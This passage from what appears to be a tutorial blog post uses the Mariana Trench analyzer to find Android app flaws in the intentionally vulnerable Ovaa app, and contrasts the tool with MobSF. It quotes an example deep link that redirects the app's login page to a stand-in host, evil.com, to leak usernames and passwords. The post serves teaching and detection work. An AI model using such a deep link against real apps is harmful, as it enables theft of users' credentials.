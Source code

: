 
## Where static analyzers fail
Static analyzers are excellent tools for testing mobile applications since they can extract a large volume of information and automate simple tasks required to reverse an app. Consider [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF): it provides a detailed overview of the Android API being used by the app, URL schemes, potential attack vectors, and much more. Basically, it means, "Here is this component or function; check it to see whether it may pose a security risk." In comparison to Mariana Trench, MobSF catches all sinks and sources (defined by itself, not customizable) but fails to identify a connection between them. For example, MobSF identifies the registration of a broadcast receiver and the starting of activity as follows:
![Window shadow](MobSF_result_1.png){: .shadow width="1548" height="864"  }
_Detection of a BroadcastReceiver registration by MobSF_
![Window shadow](MobSF_result_2.png){: .shadow width="1548" height="864"  }
_Detection of a StartActivity execution by MobSF_

It is easy to see that the activity will be launched by the intent passed as the class method's second argument, but MobSF is not able to determine if it came from the one delivered to the broadcast receiver. We have two options for dealing with this situation:
- trace the data delivered to the receiver to determine if it ends up in the *startActivity* method
- automate the previous by using MT

## Get your hands dirty
Through this series, we will avail the challenges of the vulnerable [Ovaa](https://github.com/oversecured/ovaa) application offered by [Oversecured](https://oversecured.com/) to practice developing models and rules; starting with basic and simple models and moving to something a little more advanced.

### Challenge 1
As reported in the github page, the first challenge is about: 
> 1. Installation of an arbitrary login_url via deep link oversecured://ovaa/login?url=http://evil.com/. Leads to the user's username and password being leaked when they log in.

It seems a very realistic challenge: an external input is received and used by the application to do something. It is a suitable example for learning Mariana Trench. From the description, it appears there is a deep link managed by a component that presents a page from an arbitrary URL. The analysis requires a few steps:
1. Find what component handles the deep link and the conclusion made.
2. Understand how to steal the user’s credentials by exploiting the deep link.
3. Write the model that identifies the issue.


#### Step 1
As always, the Manifest of the Android app is the first check. Our attention is obviously caught to the ```DeeplinkActivity``` activity (there is a URL scheme defined):

````xml
[REDACTED]
<activity android:name=".activities.DeeplinkActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:host="ovaa" android:scheme="oversecured" />
    </intent-filter>
</activity>
[REDACTED]
<activity android:name=".activities.LoginActivity">
	<intent-filter>
		<action android:name="oversecured.ovaa.action.LOGIN" />
		<category android:name="android.intent.category.DEFAULT" />
	</intent-filter>
</activity>
<activity android:name=".activities.EntranceActivity">
````